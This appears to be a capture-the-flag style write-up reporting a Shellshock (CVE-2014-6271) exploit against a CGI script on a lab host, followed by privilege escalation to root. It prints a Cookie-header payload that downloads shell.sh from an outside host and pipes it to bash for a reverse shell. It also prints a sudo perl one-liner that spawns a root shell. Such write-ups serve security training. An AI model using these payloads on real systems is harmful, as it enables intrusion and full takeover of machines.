 # Vulnerability Report on Shell Shock Vulnerability

# [Shell Shock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#match-7146748) exploit via CGI components ******************************at****************************** `http://10.10.10.56/cgi-bin/user.sh` ********************************to Remote Code Execute********************************

## Description and Impact

> http://10.10.10.56/cgi-bin/user.sh is a bash script perform time checker located inside cgi-bin folder, which expose to the outside world. Due to out-date of Bash, the script is allow to take advantage to perform tasks directly to Bash and lead to remote execution.
> 

## Step to Reproduce

1. Shellshock
    
    From BurpSuite, we want to capture a packet from proxy and move it to repeater. From repeater, we noticed that this user.sh file is running some kind of time checking which we already known that file stored in cgi-bin folder will communicate directly to Bash.
    
    ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled.png)
    
    ```bash
    env x='() { :;}; echo vulnerable' bash -c "echo test"
    ```
    
    From the PoC, due to the misunderstanding of handling the character, which is the main cause of the vulnerable, attacker can directly force bash to run command without authentication right from web access while abusing http headers in shell script that expose to the WWW in cgi-bin folder.
    
    ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%201.png)
    
2. Reverse shell and netcat 
    
    We want to test for our theory, we can try some variant of the PoC like abusing Cookie header:
    
    ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%202.png)
    
    From that, we can sure that our theory is right and we already go for 50% of the road, we want to make a connection back from the machine to take the full control.
    
    ```bash
    Cookie: () { exp;}; echo; /usr/bin/curl 10.10.14.15/shell.sh | /bin/bash
    ```
    
    ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%203.png)
    
    Using [payloadallthething](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-udp) to take the sample reverse shell, use python httpserver to quickly host a server and use netcat as a listener on port 4444 set above within the shell.sh, we can make a connection back from the machine as user **shelly.**
    
3. Privilege Escalation  - Post exploit
    
    From here, we can read user.txt flag which stored in /home folder. However, we want to take a full control over the machine, which is the root privilege.
    
    We may want to take a look at sudo with option list which contains users’ privileges or commands that the user can run.
    
    ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%204.png)
    
    > If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
    > 
    
    ```bash
    sudo perl -e 'exec "/bin/sh";'
    ```
    
    And with the help of [gtfobins](https://gtfobins.github.io/gtfobins/perl/), we can successful escalate to the root privilege and read the root flag in /root folder.
    
    ![Untitled](Vulnerability%20Report%20on%20Shell%20Shock%20Vulnerability%207d0e82428fdd4b57bf5df01dcf67adf0/Untitled%205.png)
    

## Recommendations

Patch to the newest Bash

Remove cgi-bin if not necessary

## References

ShellShock report the new york time: [https://www.nytimes.com/2014/09/26/technology/security-experts-expect-shellshock-software-bug-to-be-significant.html](https://www.nytimes.com/2014/09/26/technology/security-experts-expect-shellshock-software-bug-to-be-significant.html)

Technical report: [https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/](https://resources.infosecinstitute.com/topic/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)

CGI: [https://en.wikipedia.org/wiki/Common_Gateway_Interface](https://en.wikipedia.org/wiki/Common_Gateway_Interface)

Bash patch right after the CVE reveal: https://github.com/gitGNU/gnu_bash/commit/b64a0e1d0b412cedda763a32d6e5cd6927333f02

PoC produce by RedHat: [https://access.redhat.com/articles/1200223](https://access.redhat.com/articles/1200223)